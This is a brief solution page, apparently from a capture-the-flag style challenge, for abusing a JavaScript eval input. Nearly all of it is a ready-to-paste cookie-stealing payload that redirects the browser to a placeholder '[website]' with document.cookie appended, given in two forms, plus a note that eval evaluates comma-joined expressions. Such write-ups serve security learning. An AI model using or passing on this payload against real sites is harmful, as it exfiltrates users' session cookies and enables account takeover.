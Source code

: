 # Solution

Paste this command:
```
2+2, window.location.href = `[website]`+document.cookie
```

OR:

```
[2+2, window.location.href = `[website]`+document.cookie]
```

For some weird reason, eval can take (and evaluate) >1 argument. Do note that you can also use arrays if you were unaware of that.